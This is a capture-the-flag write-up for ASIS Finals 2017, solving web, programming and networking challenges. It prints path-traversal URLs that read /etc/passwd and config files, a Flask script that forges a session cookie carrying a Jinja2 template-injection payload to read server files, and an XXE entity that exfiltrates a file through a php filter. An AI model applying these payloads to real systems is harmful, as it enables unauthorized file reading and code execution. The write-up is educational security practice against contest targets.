 
# ASIS-FINALS-2017
-<b>Task name : Golem is stupid <br>
-Category : Web <br>
 </b>
-Description :  Golem is an animated anthropomorphic being that is magically created entirely from inanimate matter, but Golem is stupid! <br>
<br>

-tl;dr : SSTI to get RCE in flask session token <br>

-Challenge : <br>
-first could find obvious LFI  https://golem.asisctf.com/article?name=../../../etc/passwd  and leak etc/passwd <br>
-Trying leak other files gave us important infos : https://golem.asisctf.com/article?name=../../../../proc/self/cmdline <br>

https://golem.asisctf.com/article?name=../../../../../../etc/uwsgi/apps-enabled/golem_proj.ini was showing main script path file <br>

leaking that we can see that all parameters are kind of sanitized except token, which was then printed , looks like server side template injection<br>
All I had to do is create local flask app, forge my token using the key which was in the python file with payload, and send it to the application<br><br>

Payload : <br>
```
#creatig payload
from flask import Flask, session

app = Flask(__name__)

@app.route('/')
def run():
    session['golem'] = '{{ \'\'.__class__.__mro__[2].__subclasses__()[40](\'/opt/serverPython/golem/flag.py\').read() }}'
    return 'ok'
    

if __name__ == '__main__':
    app.secret_key = '7h15_5h0uld_b3_r34lly_53cur3d'
    app.run(host='127.0.0.1', port=2222, debug=True)
---------------------------------------------------------------------------------------------------------------------

#exploiting 
import requests

cookies={'session':'.eJwlyU0LgjAYAOC_Eu-5w9SCNugUOJl6iGgub21-QG4Z6Aab-N8zuj7PAv2oWwNkgZ0EAm0y9cwrKyL8kjQNKsJdoXEnBXObyVKj34WmYv-PeRDRacz5hMoUjcxjp7Kr29w3hvt7ptGTYlvEjZOUz0VcT49KWZUN7_x29HWVDvll6DuBzrDuYTYfIIdk_QL3ADJC.DJSUXQ.0_cgqMpbS89-sLEX2HaJRslq73I'}


r=requests.post('https://golem.asisctf.com/golem',cookies=cookies)

print r.text
```

-<br>
-Response contained flag : <b>ASIS{I_L0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}</b>

-<br><br>
-<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
-<br><br><br>
<b>
-Task name :  GSA File Server  <br>
-Category : Web <br>
</b>
-Description :  GSA's file server, go find the hole, drill it and grab the flag :)
-Note that Scope is 128.199.40.185:* <br>
<br>

-tl;dr : Exploit XXE and Use a directory listing vuln to read flag<br>

-Challenge : <br>
-First find :http://128.199.40.185/showFiles was vuln to directory listing<br>
-Second find : http://128.199.40.185:8081/panelManager-0.1/ XXE injection in docx file <br>
-the solution was to download their doc file called (demo) open with archive and change inner xml (word/document.xml) with an xxe  php filter was working <br>
-```<!DOCTYPE roottag [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=../../../../fileSharing/s3cRetP4th/flagIsHeregRabiT.flag"> ]>```<br>
-<br> the directory of the flag was found using the first vuln <br>
-Flag : <b>ASIS{Vuln_web_appZ_plus_misc0nfig_eQ_dis4st3R!}</b>
-<br><br>
-<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
-<br><br><br><b>
-Task name :   Chaoyang District   <br>
-Category : PPC <br></b>
-Description :  This is an AI programming challenge, so binary is not required to be provided. <br>
-tl;dr : play one game to generate sequence of winning moves, repeat same sequences 50 times ;) <br>
-Challenge : <br>
-Challenge was Reversi game vs an AI, the problem was that the same game was repeated, and the AI did same moves, so we need to win just one game, store the moves that we used and repeat for all games <br>

```
#might wanna use pwntools instead of sockets, it bugged sometime
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('178.62.22.245',32145))
seq=['e3','c5','b5','g3','b3','a5','b7','a7','d7','e6','a4','a8','e1','b1','g8','c8','g5','h2','g1','h6','g7','h7','d8','c1','e8','a2','h3','h5'
i=0
j=0
while True:
	print s.recv(1024)
	print s.recv(1024)
	print 'Game nubmer : ' , j+1
	if i==len(seq):
		j+=1
		i=0
	s.send(seq[i]+'\n')
	if j==49:
		print s.recv(1024)
	i+=1
```

<br>
Flag : <b>ASIS{Th3_Bra1n_Wash1nG_HAHA_AI_IS_INTERESTING}</b>
<br><br>
-<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
-<br><br><b>
-Task name :   Vivid Spying   <br>
-Category : Networking <br></b>
-Description :      We have captured the spy traffic by our agents, hurry up and find the flag. : <br>
-Challenge : <br> 
-The challenge provided a DNS capture, after analyzing it for a bit we can extract some prefix in a domain name asisctf.com<br>
10.111110100001001111101011001010011100100010001011111010000101100.010111010010110111011101111101011100110011101101001011010011110.000011101100101011111010110111101100101010010010110010101000001.asisctf.com <br>
Cleaning that prefix from dots and reading it right to right didn't give printable string <br>
after adding a zero it becomes : 010000010101001101001001010100110111101101011111010100110111000001111001011010010110111001100111010111110111011101101001011101000110100001011111010001000100111001010011010111110010000101111101 <br>
-bin to ascii => <b>ASIS{_Spying_with_DNS_!} </b>
